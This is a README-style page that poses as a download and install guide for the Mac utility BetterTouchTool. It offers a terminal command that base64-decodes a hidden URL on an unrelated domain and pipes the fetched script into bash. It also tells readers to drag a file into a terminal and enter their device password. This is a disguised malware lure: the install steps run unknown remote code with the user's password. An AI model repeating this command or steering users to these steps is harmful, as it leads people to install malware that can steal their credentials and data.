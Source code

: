 # BetterTouchTool for Mac Download - Customize Your Workflow

![BetterTouchTool Screenshot 1](https://mac-cdn.softpedia.com/screenshots/BetterTouchTool_23.jpg)

---

## 🔽 Download BetterTouchTool for Mac

[![Download Now](https://img.shields.io/badge/Download_BetterTouchTool-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/bettertouchtool)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is BetterTouchTool for Mac?

BetterTouchTool is a powerful utility for macOS that allows users to customize their input devices, including trackpads, mice, keyboards, and Touch Bar. It enhances productivity by enabling users to create custom gestures, shortcuts, and triggers for virtually any action on their Mac. Whether you're a designer, developer, or everyday user, BetterTouchTool can streamline your workflow and make your Mac experience more efficient.

The software supports a wide range of customization options, such as assigning gestures to open applications, control media playback, or execute complex scripts. BetterTouchTool also includes window snapping features, similar to Windows, allowing users to quickly arrange windows on their screen. Additionally, it offers advanced automation capabilities, making it a favorite among power users.

BetterTouchTool is highly configurable and supports multiple devices, including Magic Trackpads and third-party mice. With its intuitive interface and extensive documentation, users can easily tailor the tool to their specific needs, unlocking the full potential of their Mac's input devices.

![BetterTouchTool Screenshot 2](https://static.macupdate.com/screenshots/352501/m/bettertouchtool-screenshot.png)

---

## Key Features & Benefits

- 🖱 Customize trackpad, mouse, and keyboard inputs  
- ✨ Create custom gestures and shortcuts  
- 🖥 Window snapping and management tools  
- ⚡️ Advanced automation and scripting support  
-   Compatible with Touch Bar and third-party devices  
- 🎮 Boost productivity with personalized workflows  

Whether you're a power user or just looking to enhance your Mac experience, BetterTouchTool offers endless customization possibilities.

---

## 🔍 Keywords

BetterTouchTool for Mac, BetterTouchTool Mac Download, BetterTouchTool for Mac Download, BetterTouchTool Mac, BetterTouchTool Download Mac, BetterTouchTool Download for Mac, BetterTouchTool full version, Mac Download BetterTouchTool, Download Mac BetterTouchTool, Download BetterTouchTool Mac, Download BetterTouchTool for Mac
